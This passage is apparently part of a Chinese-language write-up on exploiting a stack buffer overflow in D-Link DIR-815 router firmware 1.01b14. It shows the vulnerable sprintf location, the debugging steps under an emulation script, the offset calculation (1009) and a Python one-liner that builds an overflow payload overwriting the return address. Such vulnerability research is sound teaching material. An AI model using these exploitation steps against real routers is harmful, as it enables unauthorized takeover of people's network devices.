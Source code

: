 在 jr $ra 时就触发了栈溢出

[![](https://p3.ssl.qhimg.com/t01c78158415609f642.png)](https://p3.ssl.qhimg.com/t01c78158415609f642.png)
<li>但是在真实的路由器环境中存在 /var/tmp/temp.xml 的文件，**所以真正的可利用的栈溢出是位于 0x0040997C 处的 sprintf 函数**
</li>
[![](https://p2.ssl.qhimg.com/t012da9a492004edb7d.png)](https://p2.ssl.qhimg.com/t012da9a492004edb7d.png)

最后在执行完函数之后，还是会触发这个栈溢出

[![](https://p0.ssl.qhimg.com/t014baa409ced7c5ab5.png)](https://p0.ssl.qhimg.com/t014baa409ced7c5ab5.png)



## 漏洞利用

这里还是使用 patternLocOffset.py 来生成一个填充文件

python patternLocOffset.py -c -l 1600 -f dir_815_overflow

但是注意在 string 的前面需要加上 “uid=”，因为这里会执行 sobj_get_string(“uid=”) 函数，来取到参数 uid 的值，如果没有 uid 参数的话程序会直接结束

[![](https://p2.ssl.qhimg.com/t0148de9ab41a839da7.png)](https://p2.ssl.qhimg.com/t0148de9ab41a839da7.png)

同样执行 run.sh 脚本来动态调试

sudo ./run.sh “uid=1234” `cat dir_815_overflow` -d

在 0x00409A28 处下断点。<br>
这里 ra 的值是 0x68423668，在 patternLocOffset.py 中确定偏移

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01fd90d29cf198904f.png)

这里偏移是 1009



```
nick@nick-machine:~/iot/tools$ python patternLocOffset.py -s 0x68423668 -l 1600

[*] Create pattern string contains 1600 characters ok!

[*] No exact matches, looking for likely candidates...

[+] Possible match at offset 1009 (adjusted another-endian)

[+] take time: 0.0301 s
```

所以我们构造



```
nick@nick-machine:~/iot/firmware/dir-815/dir815_FW_101/_DIR-815 FW 1.01b14_1.01b14.bin.extracted/squashfs-root$ python -c "print 'uid='+'a'*1009+'x78x56x34x12'" &gt; payload

nick@nick-machine:~/iot/firmware/dir-815/dir815_FW_101/_DIR-815 FW 1.01b14_1.01b14.bin.extracted/squashfs-root$ sudo ./run.sh "uid=1234" `cat payload` -d
```
